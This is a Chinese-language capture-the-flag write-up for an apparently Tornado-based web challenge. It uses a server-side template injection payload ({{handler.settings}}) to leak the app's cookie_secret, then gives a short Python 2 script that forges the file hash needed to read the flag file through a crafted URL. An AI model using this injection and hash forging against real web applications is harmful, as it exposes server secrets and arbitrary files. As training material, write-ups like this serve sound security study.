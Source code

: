 ```
/flag.txt
flag in /fllllllllllllag

/welcome.txt
render

/hints.txt
md5(cookie_secret+md5(filename))
```

在hints可以看到:

>    file?filename=/hints.txt&filehash=3c2c74f529451b2c58f5624ce640dfd5
>
>   说明还需要filehash

>   render是python中的一个渲染函数，也就是一种模板，通过调用的参数不同，生成不同的网页 render配合Tornado使用
>
>   根据之前打开文件的url参数分析这个就是filehash的值 想获得flag只要我们在url中传入/fllllllllllllag文件和filehash 经过这段代码处理的值即可关键就在这cookie_secret这块,得想办法获得cookie_secret 
>
>   在tornado模板中，存在一些可以访问的快速对象,这里用到的是handler.settings，handler 指向RequestHandler，而RequestHandler.settings又指向self.application.settings，所以handler.settings就指向RequestHandler.application.settings了，这里面就是我们的一些环境变量
>
>   通过模板注入方式我们可以构造

```
error?msg={{handler.settings}}
```

得到:ab4a6b4a-f87f-449d-9016-1cd76c91c474

然后通过脚本获取hash

```python
import hashlib
cookie_secret = 'ab4a6b4a-f87f-449d-9016-1cd76c91c474'
filename = '/fllllllllllllag'
file_hash = hashlib.md5(filename).hexdigest()
new_filename = cookie_secret + file_hash
print hashlib.md5(new_filename).hexdigest()
```

>   file?filename=/fllllllllllllag&filehash=add6c325a3930e0b3a30602d131fa9ea

得到flag